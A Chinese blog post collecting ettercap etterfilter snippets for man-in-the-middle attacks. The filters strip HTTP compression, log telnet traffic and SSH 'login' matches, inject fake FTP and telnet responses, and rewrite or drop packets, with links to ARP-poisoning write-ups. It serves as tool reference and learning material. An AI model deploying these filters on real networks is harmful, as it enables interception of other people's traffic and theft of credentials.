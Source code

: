 ```yaml
---
title: etterfilter
date: 2016-03-29T21:25:45+08:00
update: 2016-01-01
categories: [网络安全]
tags:
---
```



收集的一些Etterfilter

Below is a filter that Zaps the encoding to force plain-text communication:

if (ip.proto == TCP && tcp.dst == 80) {
if (search(DATA.data, “gzip”)) {
replace(“gzip”, ” “); # note: four spaces in the replacement string
msg(“whited out gzip\n”);
}
}

if (ip.proto == TCP && tcp.dst == 80) {
if (search(DATA.data, “deflate”)) {
replace(“deflate”, ” “); # note: seven spaces in the replacement string
msg(“whited out deflate\n”);
}
}

Replacing text in a packet:
if (ip.proto == TCP && search(DATA.data, “lol”)){
replace(“lol”, “smh”);
msg(“filter ran”);

}

Display a message if the tcp port is 22:
if (ip.proto == TCP) {
if (tcp.src == 22 || tcp.dst == 22) {
msg(“SSH packet\n”);
}
}

Log all telnet traffic, also execute ./program on every packet:
if (ip.proto == TCP) {
if (tcp.src == 23 || tcp.dst == 23) {
log(DATA.data, “./logfile.log”);
exec(“./program”);
}
}

Log all traffic except http:
if (ip.proto == TCP && tcp.src != 80 && tcp.dst != 80) {
log(DATA.data, “./logfile.log”);
}

Some operation on the payload of the packet:
if ( DATA.data + 20 == 0x4142 ) {
DATA.data + 20 = 0x4243;
} else {
DATA.data = “modified”;
DATA.data + 20 = 0x4445;
}

Drop any packet containing “ettercap”:
if (search(DECODED.data, “ettercap”)) {
msg(“some one is talking about us…\n”);
drop();
kill();
}

Log ssh decrypted packets matching the regexp
if (ip.proto == TCP) {
if (tcp.src == 22 || tcp.dst == 22) {
if (regex(DECODED.data, “.*login.*”)) {
log(DECODED.data, “./decrypted_log”);
}
}
}

Dying packets:
if (ip.ttl <>
msg(“The packet will die soon\n”);
}

String comparison at a given offset:
if (DATA.data + 40 == “ette”) {
log(DATA.data, “./logfile”);
}

Inject a file after a specific packet:
if (tcp.src == 21 && search(DATA.data, “root”)) {
inject(“./fake_response”);
}

Replace the entire packet with another:
if (tcp.src == 23 && search(DATA.data, “microsoft”)) {
drop();
inject(“./fake_telnet”);
}

Filter only a specific ip address:
if (ip.src == ‘192.168.0.2’) {
drop();
}

Translate the port of the tcp packet from 80 to 81:
if (tcp.dst == 80) {
tcp.dst -= 1;
tcp.dst += 2;
}

参考
more-on-ettercap-plus-filter-examples.
http://aerokid240.blogspot.com/2009/11/more-on-ettercap-plus-filter-examples.html

Xssf Inject with ettercap and Arp PoisoningClsHack
http://m.blog.csdn.net/article/details?id=7494769

中间人攻击之ettercap嗅探
http://www.s0nnet.com/archives/mitm-ettercap
